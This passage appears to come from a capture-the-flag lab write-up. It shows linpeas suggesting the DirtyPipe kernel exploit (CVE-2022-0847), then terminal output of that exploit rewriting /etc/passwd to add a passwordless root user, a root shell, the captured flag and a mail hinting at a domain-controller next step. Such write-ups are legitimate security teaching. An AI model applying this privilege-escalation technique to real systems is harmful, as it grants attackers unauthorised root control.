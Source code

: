By running `linpeas` we can find possible ways to escalate privileges and it suggests using the `DirtyPipe` exploit
```
tom@1c89340fee5f:/tmp$ ./linpeas.sh

╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester  

[+] [CVE-2022-0847] DirtyPipe

   Details: https://dirtypipe.cm4all.com/
   Exposure: less probable
   Tags: ubuntu=(20.04|21.04),debian=11
   Download URL: https://haxx.in/files/dirtypipez.c
```

Let's use this exploit `https://github.com/Al1ex/CVE-2022-0847`
```
tom@1c89340fee5f:/tmp$ ./exp /etc/passwd 1 ootz:  
It worked!
tom@1c89340fee5f:/tmp$ head -n1 /etc/passwd
rootz::0:0:root:/root:/bin/bash
tom@1c89340fee5f:/tmp$
tom@1c89340fee5f:~$ su rootz
rootz@0474e1401baa:~# id
uid=0(rootz) gid=0(root) groups=0(root)
rootz@0474e1401baa:~# hostname -I
172.22.11.10 
rootz@0474e1401baa:~# cat /root/flag.txt  
AWS{uN1x1f13d_4_l0t!}
rootz@0474e1401baa:~#
```

Then you can get the root shell here.

# Long Run
The root user receives an email in `/var/mail/root` asking him to activate the `jameshauwnnel` user as an account in the DC domain
```
rootz@0474e1401baa:~# cat /var/mail/root
From tom@localhost  Mon, 10 Jan 2022 09:10:48 GMT
Return-Path: <tom@localhost>
Received: from localhost (localhost [127.0.0.1])
	by localhost (8.15.2/8.15.2/Debian-18) with ESMTP id 28AAfaX452455
	for <root@localhost>; Mon, 10 Jan 2022 09:10:48 GMT
Received: (from tom@localhost)
	by localhost (8.15.2/8.15.2/Submit) id 28AAfaX452455;
	Mon, 10 Jan 2022 09:10:48 GMT
Date: Mon, 10 Jan 2022 09:10:48 GMT 
Message-Id: <202201100910.28AAfaX452455@localhost>
To: root@localhost
From: tom@localhost
Subject: Activating User Account

Hi Tony.

Could you please activate the user account jameshauwnnel on the domain controller along with setting correct permissions for him.  

Thanks,
Tom
```
